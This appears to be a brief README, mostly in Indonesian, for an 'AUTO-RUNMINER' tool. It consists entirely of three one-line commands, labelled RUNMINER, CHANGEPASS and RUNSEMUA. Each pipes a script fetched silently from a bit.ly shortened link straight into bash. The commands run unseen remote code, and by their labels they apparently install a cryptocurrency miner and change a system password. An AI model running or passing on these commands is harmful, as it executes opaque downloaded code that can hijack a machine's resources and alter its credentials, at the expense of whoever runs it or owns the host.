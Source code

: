 # AUTO-RUNMINER
BUKAN MANUSIA

# RUNMINER

```
bash <(wget -qO- https://bit.ly/3ZMmVo2)

```
# CHANGEPASS
```
bash <(wget -qO- https://bit.ly/3N7PapR)

```
# RUNSEMUA

```
bash <(wget -qO- https://bit.ly/4euSxTB)
```

